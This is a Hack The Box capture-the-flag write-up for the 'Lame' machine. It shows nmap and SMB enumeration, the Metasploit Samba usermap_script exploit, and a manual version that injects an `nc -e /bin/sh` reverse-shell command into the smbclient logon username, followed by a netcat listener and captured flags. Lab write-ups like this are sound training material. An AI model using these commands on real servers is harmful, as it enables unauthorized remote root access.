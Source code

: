 ```yaml
---
title: Lame - Hack The Box
author: "0xPThree"
description: "N/A"
date: 2019-04-12
image: images/lame_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```



# USER
## Enumeration
```bash
root@nidus:/git/thm# nmap -Pn -sC -sV -n 10.10.10.3
  Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-30 10:09 CEST
  Nmap scan report for 10.10.10.3
  Host is up (0.035s latency).
  Not shown: 996 filtered ports
  PORT    STATE SERVICE     VERSION
  21/tcp  open  ftp         vsftpd 2.3.4
  |_ftp-anon: Anonymous FTP login allowed (FTP code 230)
  | ftp-syst:
  |   STAT:
  | FTP server status:
  |      Connected to 10.10.14.4
  |      Logged in as ftp
  |      TYPE: ASCII
  |      No session bandwidth limit
  |      Session timeout in seconds is 300
  |      Control connection is plain text
  |      Data connections will be plain text
  |      vsFTPd 2.3.4 - secure, fast, stable
  |_End of status
  22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
  | ssh-hostkey:
  |   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
  |_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
  139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
  445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
  Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

  Host script results:
  |_clock-skew: mean: -3d00h51m31s, deviation: 2h49m45s, median: -3d02h51m34s
  | smb-os-discovery:
  |   OS: Unix (Samba 3.0.20-Debian)
  |   Computer name: lame
  |   NetBIOS computer name:
  |   Domain name: hackthebox.gr
  |   FQDN: lame.hackthebox.gr
  |_  System time: 2020-07-27T01:17:55-04:00
  | smb-security-mode:
  |   account_used: guest
  |   authentication_level: user
  |   challenge_response: supported
  |_  message_signing: disabled (dangerous, but default)
  |_smb2-time: Protocol negotiation failed (SMB2)
```

### SMB
Login in to the ftp with anonymous:anonymous we find nothing of use. Enumerate the SMB shares using smbmap and smbclient.

```bash
root@nidus:/git/htb/lame# smbmap -H 10.10.10.3
[+] IP: 10.10.10.3:445	Name: 10.10.10.3
        Disk                                                  	Permissions	Comment
  ----                                                  	-----------	-------
  print$                                            	NO ACCESS	Printer Drivers
  tmp                                               	READ, WRITE	oh noes!
  opt                                               	NO ACCESS
  IPC$                                              	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
  ADMIN$                                            	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
```

The share tmp seems interesting, both read and write permissions - lets enumerate more there.


> **NOTE:**
>
> If you're experiencing this error when trying to list with smbclient: "protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED".
> Then go ahead and add the following two lines to `/etc/samba/smb.conf` under `[global]`:
> ```bash
>  client min protocol = NT1
>  client max protocol = SMB3
> ```


```bash
root@nidus:/git/htb/lame# smbclient \\\\10.10.10.3\\tmp
  smb: \> ls
  .                                   D        0  Mon Jul 27 07:50:50 2020
  ..                                 DR        0  Sun May 20 20:36:12 2012
  5145.jsvc_up                        R        0  Mon Jul 27 07:17:46 2020
  .ICE-unix                          DH        0  Mon Jul 27 07:16:41 2020
  .X11-unix                          DH        0  Mon Jul 27 07:17:08 2020
  .X0-lock                           HR       11  Mon Jul 27 07:17:08 2020
```

There's nothing of direct use for us in here either. Instead we change the approach and look for known samba vulnerabilities.

Using searchsploit we look for any direct vulnerabilities of Samba version 3.0.20.

```bash
root@nidus:/git/htb/lame# searchsploit samba 3.0.20
  ---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
    Exploit Title                                                                                                              |  Path
  ---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
  ..
  Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                            | unix/remote/16320.rb
  ---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

Direct we find a msf module available. Turns out this module gives us instant root. Grab root.txt and user.txt

```bash
  msf5 auxiliary(scanner/ssh/ssh_enumusers) > use exploit/multi/samba/usermap_script
  msf5 exploit(multi/samba/usermap_script) > set lhost 10.10.14.4
  msf5 exploit(multi/samba/usermap_script) > set rhost 10.10.10.3
  msf5 exploit(multi/samba/usermap_script) > run

    [*] Started reverse TCP handler on 10.10.14.4:4444
    [*] Command shell session 1 opened (10.10.14.4:4444 -> 10.10.10.3:46617) at 2020-07-30 10:53:52 +0200

    whoami
      root
    pwd
      /
    cat /root/root.txt
      92caac3be140ef409e45721348a4e9df
    ls -al /home
      total 24
      drwxr-xr-x  6 root    root    4096 Mar 14  2017 .
      drwxr-xr-x 21 root    root    4096 May 20  2012 ..
      drwxr-xr-x  2 root    nogroup 4096 Mar 17  2010 ftp
      drwxr-xr-x  2 makis   makis   4096 Mar 14  2017 makis
      drwxr-xr-x  2 service service 4096 Apr 16  2010 service
      drwxr-xr-x  3    1001    1001 4096 May  7  2010 user
    cat /home/makis/user.txt
      69454a937d94f5f0225ea00acd2e84c5
```

### Or manually without metasploit: 

Logging in as anonymous user on the smb-service we find that 'logon' option is available.
We can exploit this directly to get a reverse shell.

**(a)** Verify options with '?' or 'help'
```bash
smbclient \\\\10.10.10.3\\tmp\\
smb: \> ?
  [..]
  wdel           logon          listconnect    showconnect    tcon
```

**(b)** Setup a reverse shell to your box
```bash
smb: \> logon "./=`nohup nc -e /bin/sh 10.10.14.10 4488`"
  Password:
  session setup failed: NT_STATUS_IO_TIMEOUT
```

**(c)** Grab the incomming session
```bash
[root:/git/htb/lame]# nc -lvnp 4488                                                                                               (master✱)
listening on [any] 4488 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.3] 58543
  whoami
  root
  python -c 'import pty;pty.spawn("/bin/bash")';
  root@lame:/root# cat root.txt
    cat root.txt
    744e9fa96f4e8423020ccb841c60e4d2
```
